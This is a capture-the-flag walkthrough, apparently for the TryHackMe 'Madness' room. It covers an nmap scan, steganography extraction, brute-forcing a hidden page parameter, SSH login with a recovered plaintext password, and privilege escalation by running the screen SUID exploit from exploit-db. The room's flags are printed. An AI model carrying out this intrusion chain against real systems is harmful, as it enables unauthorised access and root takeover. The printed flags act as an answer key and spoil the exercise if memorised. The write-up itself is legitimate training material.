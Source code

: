 # <div align="center">[Madness](https://tryhackme.com/r/room/madness)</div>
<div align="center">
  <img src="https://github.com/user-attachments/assets/044d66b7-a10d-45ac-9790-2df9df4478c2" height="200"></img>
</div>

## Let start with Scanning The IP ```nmap -sC -sV <IP>```
```
death@esther:~$ nmap -sC -sV 10.10.81.42
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 15:36 IST
Nmap scan report for 10.10.81.42
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### On apache2 default page there is a comment and Path of img.
<div align="center">
  <img src="https://github.com/user-attachments/assets/0d7cda38-0438-4380-8cf5-5fb5b05902c5" height=""></img>
</div>


### Let download this imge
```
wget http://10.10.81.42/thm.jpg
```
### Its not an image as i examined the first 12 bits of and converted it to a **JPG** format.
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
### Let take look at this:
```
http://10.10.81.42/th1s_1s_h1dd3n
```
### Source code i got this ```http://Ip/th1s_1s_h1dd3n/?secret=```

<div align="center">
  <img src="https://github.com/user-attachments/assets/cd9f8dce-c50d-4732-a035-7c04232298ed" height=""></img>
</div>

### Doing this manually take a long time let automate this with help of python, I already created secret.py [tap here](./secret.py) 
```
death@esther:~$ python3 secret.py 
Enter IP:10.10.81.42
Found secret: 73
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 73</p>

<p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>

</div>
</body>
</html>
```
```
y2RPJ4QaPF!B
```

### Let try steghide maybe this is the passphrase,
```
death@esther:~$ steghide info thm.jpg
"thm.jpg":
  format: jpeg
  capacity: 1.0 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "hidden.txt":
    size: 101.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```
```
steghide extract -sf thm.jpg
```
### We got hidden.txt
```
death@esther:~$ cat hidden.txt 
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
```
### This username looks strange to me let try to decode this
```
echo -n "wbxre" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```
### this is ```Rot13``` cypher on cyberchef
<div align="center">
  <img src="https://github.com/user-attachments/assets/b76ced3d-fed9-4105-87bb-f69c036a6921" height=""></img>
</div>

### ```joker``` this is the real username.

### I have tried everthing but didn't find anything after help of some resource i found the lab banner contain some information. 
```
wget https://<IP>/5iW7kC8.jpg
```
steghide info 5iW7kC8.jpg
steghide extract -sf 5iW7kC8.jpg
cat password.txt
sshpass -p "*axA&GF8dP" ssh joker@<IP>
cat user.txt 
```
```
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```
```
find / -user root -perm -u=s 2>/dev/null
ls -l /bin/screen*
# https://www.exploit-db.com/exploits/41154
sh 41154.sh 
cat /root/root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
```
